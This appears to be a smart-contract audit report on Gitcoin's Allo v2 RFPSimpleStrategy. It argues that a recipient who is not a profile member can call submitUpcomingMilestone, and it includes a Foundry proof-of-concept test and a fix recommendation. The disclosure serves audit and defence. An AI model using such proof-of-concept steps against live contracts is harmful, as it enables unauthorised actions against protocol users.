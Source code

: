 Noisy Ocean Hornet

high

# Unregistered user can submit Upcoming Milestone
## Summary

In RFPSimpleStrategy , recipients can call  `submitUpcomingMilestone` with their proof of work. The docs mention that the caller must be an `acceptedRecipientId` and should be a `profile` member . 

They do by checking through this:-

https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L255-L257

But , it does not check the case where, 
`acceptedRecipientId` == msg.sender && !_isProfileMember(acceptedRecipientId, msg.sender)



## Vulnerability Detail

Paste the below code in RFPSimpleStrategy.t.sol
Run `forge test --mt test_poc_malicious_user_can_front_run_and_set_upcoming_milestone`
```solidity
 function test_poc_malicious_user_can_front_run_and_set_upcoming_milestone() public {
        address recipient = makeAddr("malicious_recipient");
        Metadata memory metadata = Metadata({protocol: 1, pointer: "metadata"});

        bytes memory data = abi.encode(recipient, false, 1e18, metadata);
        vm.prank(recipient);
        address recipientId = allo().registerRecipient(poolId, data);
        __setMilestones();

        emit Allocated(recipientId, 1e18, NATIVE, address(pool_admin()));

        data = abi.encode(recipient, false, 1e18, metadata);

        vm.prank(pool_admin());
        allo().allocate(poolId, abi.encode(recipientId));
        vm.expectEmit();
        emit MilstoneSubmitted(0);
       
        vm.prank(recipient);
        strategy.submitUpcomingMilestone(Metadata({protocol: 1, pointer: "metadata"}));
        
        RFPSimpleStrategy.Milestone memory milestone = strategy.getMilestone(0);
        assertEq(uint8(milestone.milestoneStatus), uint8(IStrategy.Status.Pending)); 
    }
```
Here, first `registerRecipient` is called, we assume , `useRegistryAnchor` is false for the pool. 
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L327-L346

Hence , we jump to else block.
As `registryAnchor` == address(0), `isUsingRegistryAnchor` will be false.
Hence , this check passes
```solidity
            if (isUsingRegistryAnchor && !_isProfileMember(recipientId, _sender)) revert UNAUTHORIZED();
```

Now even though recipient was not a profile member, they can call `submitUpcomingMilestone` . They will pass the check as they are acceptedRecipientId but not a profile Member.
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L255



## Impact
Recipient which are not even a profile member can set milestones . Now they can deceive everyone in the protocol who believe they are registered as a profile member.
## Code Snippet
https://github.com/sherlock-audit/2023-09-Gitcoin/blob/main/allo-v2/contracts/strategies/rfp-simple/RFPSimpleStrategy.sol#L253-L271
## Tool used

Manual Review

## Recommendation
Ensure that only user should be a profile member to be able to call `submitUpcomingMilestone`
